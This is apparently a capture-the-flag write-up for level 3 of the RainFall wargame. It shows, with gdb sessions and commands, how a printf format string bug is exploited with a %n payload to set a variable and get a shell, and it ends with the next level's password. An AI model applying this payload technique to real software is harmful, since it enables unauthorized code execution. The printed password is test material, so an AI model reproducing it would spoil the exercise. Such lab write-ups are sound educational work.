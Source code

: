 # level 03

The program take no parameters but wait for input once launched. It doesn't looks like to segault with large strings :

```bash
level3@RainFall:~$ python -c 'print "A" * 30' | ./level3 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
level3@RainFall:~$ python -c 'print "A" * 100' | ./level3 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
level3@RainFall:~$ python -c 'print "A" * 200' | ./level3 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

By looking at the assembly code, we can see that the function to inspect is the `v` function.

Basically, this function takes an input with `fgets`, and pass it as the only parameter to `printf`. Then, it checks if a variable `m` is equals to 64 and open a shell if it's true. Our objective is so to modify the value of this variable as it is 0 by default :

```gdb
(gdb) x/d 0x804988c
0x804988c <m>:  0
```

As seen in the bug section of printf man, passing directly the user input to `printf` is a security hole. We can exploit this program with a [Format String Exploit](https://en.wikipedia.org/wiki/Uncontrolled_format_string).

We can check this by trying to print the stack :

```gdb
(gdb) run
Starting program: /home/user/level3/level3 
%x %x %x %x
200 b7fd1ac0 b7ff37d0 25207825

Breakpoint 1, 0x080484da in v ()
(gdb) x/24wx $esp
0xbffff500:     0xbffff510      0x00000200      0xb7fd1ac0      0xb7ff37d0
0xbffff510:     0x25207825      0x78252078      0x0a782520      0xb7fef300
0xbffff520:     0xbffff578      0xb7fde2d4      0xb7fde334      0x00000007
```

Here, `printf` begin by printing the stack from `0xbffff504`. If we take an input before printing stack value, we can see that our argument is at the 4th position :

```gdb
(gdb) run
Starting program: /home/user/level3/level3 
AAAA %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520

Breakpoint 1, 0x080484da in v ()
(gdb) x/24wx $esp
0xbffff500:     0xbffff510      0x00000200      0xb7fd1ac0      0xb7ff37d0
0xbffff510:     0x41414141      0x20782520      0x25207825      0x78252078
0xbffff520:     0xbfff000a      0xb7fde2d4      0xb7fde334      0x00000007
```

Thanks to the `%n` modifier, we can write at a special address by filling it's value with the number of printed bytes :

```gdb
(gdb) r <<< $(python -c 'print "\x8c\x98\x04\x08" + "%4$n"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level3/level3 <<< $(python -c 'print "\x8c\x98\x04\x08" + "%4$n"')
��

Breakpoint 1, 0x080484da in v ()
(gdb) x/d 0x0804988c
0x804988c <m>:  4
```

We can see that the `m` variable taked the value of the printed bytes, here 4.

We need to print 60 more bytes to changed its value to 64.

Get the flag :

```bash
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "%60x" + "%4$n"';cat) | ./level3
�                                                         200
Wait what?!
cd ../level4
cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
